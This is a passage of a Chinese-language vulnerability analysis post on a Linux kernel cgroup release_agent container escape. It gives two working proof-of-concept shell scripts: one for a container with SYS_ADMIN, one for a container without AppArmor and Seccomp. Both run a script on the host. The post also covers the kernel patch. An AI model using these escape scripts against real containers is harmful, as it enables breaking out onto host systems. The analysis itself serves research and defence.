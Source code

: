   *   *   *   *   *   *   *   *   *   *   * 

    
    
    mkdir /tmp/cgroup && mount -t cgroup -o rdma cgroup /tmp/cgroup  # 增加挂载cgroups文件系统操作cgroup_dir=/tmp/cgroup  # 修改cgroup_dir对应目录路径mkdir -p $cgroup_dir/test_subsystem_1echo 1 >$cgroup_dir/test_subsystem_1/notify_on_releasehost_overlay2_fs_dir=`sed -n 's/.*\upperdir=\([^,]*\).*/\1/p' /etc/mtab`echo '#!/bin/sh' > /scriptecho "touch /hacked_by_tunan_use_cg_notify_on_release_and_sys_admin_containter" >> /scriptecho "$host_overlay2_fs_dir/script" > $cgroup_dir/release_agentchmod a+x /script  
    sh -c "echo \$\$ > $cgroup_dir/test_subsystem_1/cgroup.procs"

  
逃逸效果如图：![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220320222816.png)2022-03-14-03-02-14.png这个利用姿势的条件还是过于苛刻了，只是通过挂载cgroup虚拟文件系统操作绕过了权限不足的问题，整个流程如下图：![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220320222817.png)2022-03-14-16-13-51.png
**>** **>**

 **关闭两大安全特性的逃逸姿势（此时是漏洞了）**

时隔3年，这个姿势又玩出了新花样，不需要特权容器，也不需要SYS_ADMIN，“只需要”关闭Docker默认开启的两大安全特性：AppArmor和Seccomp就可以成功利用了。关于这两大安全特性在这篇文章中不详细展开了，只需要知道这两大特性通过屏蔽一些动作、文件路径、系统调用来达到安全的目的，本质上是一种黑名单机制（有黑名单是不是就有可能绕过？）。启动一个无安全特性的Docker容器命令如下：docker
run  \--security-opt apparmor=unconfined --security-opt seccomp=unconfined
--name test-nginx-nosec  -d
nginx在此环境下，系统不允许将内核相关的虚拟文件系统mount到用户目录下：![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220320222819.png)2022-03-14-03-22-29.png
**如何绕？** 没有条件就创造条件 **，新建个Namespace** 来个Namespace嵌套Namespace， **并且重新定义一些资源隔离**
，让新建的Namespace又误以为是一个新的环境。创建Namespace有三种方式，`clone`、`setns`、`unshare`，这三个方式的区别如下图：![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220320222820.png)2022-02-23-16-04-58.jpg![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220320222821.png)2022-02-23-16-05-08.jpg![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220320222822.png)2022-02-23-16-05-16.jpg这部分的详细讲解也可以期待下我开头提到的系列文章，目前只需要了解就行了。此场景中更适合使用unshare去创建Namespace，因此PoC修改如下：

  *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    unshare -UrmC bash  # 通过unshare创建新的Namespace，隔离用户、映射root用户、隔离mount和cgroup并运行bash。mkdir /tmp/cgroup && mount -t cgroup -o rdma cgroup /tmp/cgroup  # 增加挂载cgroups文件系统操作cgroup_dir=/tmp/cgroup  # 修改cgroup_dir对应目录路径mkdir -p $cgroup_dir/test_subsystem_2echo 1 >$cgroup_dir/test_subsystem_2/notify_on_releasehost_overlay2_fs_dir=`sed -n 's/.*\upperdir=\([^,]*\).*/\1/p' /etc/mtab`echo '#!/bin/sh' > /scriptecho "touch /hacked_by_tunan_use_cg_notify_on_release_and_no_sec_containter" >> /scriptecho "$host_overlay2_fs_dir/script" > $cgroup_dir/release_agentchmod a+x /script  
    sh -c "echo \$\$ > $cgroup_dir/test_subsystem_2/cgroup.procs"

这次效果如下图：![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220320222823.png)2022-03-14-03-53-01.png可能确实有一些场景需要关闭AppArmor和Seccomp两大安全特性，我也相信在某些时候开发者想做某些操作不方便发现是被某个特性拦截的时候，第一想法就是关闭。可能这是分配CVE编号的原因。但这个漏洞的利用条件还是苛刻的。再看流程图：![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220320222824.png)2022-03-14-16-14-36.png
**>** **>**

 **补丁分析[6]**

简单看一下补丁：![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220320222826.png)2022-03-14-12-00-19.png补丁位置在Linux内核中的`kernel/cgroup/cgroup-v1.c`文件中，也验证了这个漏洞是Linux内核漏洞而不是Docker和容器本身的漏洞。补丁限制了配置release_agaent的权限。
**0x04 总结一下** 如果真的能读到这里，你已经阅读了将近5000字了，虽然是一篇漏洞分析文章，但是这个漏洞本身并不那么重要也不算严重。 **引申**
**出来的知识和思考才是我写出来这篇文的动力所在。** 我大概分析了三枚容器逃逸类漏洞，从最开始写成文章的[CVE-2019-5736
runc容器逃逸漏洞](https://mp.weixin.qq.com/s?__biz=MzU5NDgxODU1MQ==&mid=2247483740&idx=1&sn=2b3e3396cdace8ca0e27ed502f51ad3c&scene=21#wechat_redirect)，到我只复现没分析的CVE-2021-30465
runc竞争条件漏洞[7]，再到今天这枚内核提权限漏洞导致容器意外逃逸，我也从啥也不懂照葫芦画瓢变成了略知一二，发现了容器逃逸类漏洞的一些特征：若想逃逸容器，一般有三个方向可以考虑：
